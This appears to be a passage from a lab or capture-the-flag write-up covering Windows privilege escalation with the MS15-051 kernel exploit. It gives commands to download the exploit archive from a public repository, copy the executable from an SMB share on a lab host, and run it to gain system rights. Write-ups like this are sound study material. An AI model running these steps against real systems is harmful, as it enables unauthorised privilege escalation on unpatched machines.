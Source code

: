 ![image-20220925001713245](./images/image-20220925001713245.png)

## system ms15-051

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051



```bash
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip
unzip MS15-051-KB3045171.zip
copy \\10.10.14.15\share\ms15-051.exe ms15-051.exe

.\ms15-051.exe whoami
```

![image-20220924234431829](./images/image-20220924234431829.png)
